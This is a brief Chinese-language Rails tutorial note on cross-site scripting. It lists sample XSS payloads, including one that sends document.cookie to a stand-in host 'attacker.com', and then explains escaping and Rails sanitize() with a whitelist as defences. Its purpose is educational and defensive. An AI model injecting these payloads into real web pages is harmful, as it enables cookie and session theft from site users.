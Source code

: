 # XSS 是什麼
XSS - Cross-Site Scripting 是指在輸入資料的欄位輸入惡意程式碼，使資料外洩或惡作劇跳出視窗，如下

```javascript
<script>alert('HACK YOU!');</script>
<img src=javascript:alert('HACK YOU!')>
<table background="javascript:alert('HACK YOU!')">
<script>document.write(document.cookie);</script>
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

要解決這個問題最基本的方法就是用 escapeHTML() 或 h() 處理使用者產生的文字  

但有時候我們必須讓使用者可以輸入 HTML 怎麼辦?

那就使用 Rails 提供的 sanitize() 方法以及建立白名單來過濾輸入的 HTML

詳細使用參照 [here](http://api.rubyonrails.org/classes/ActionView/Helpers/SanitizeHelper.html#method-i-sanitize)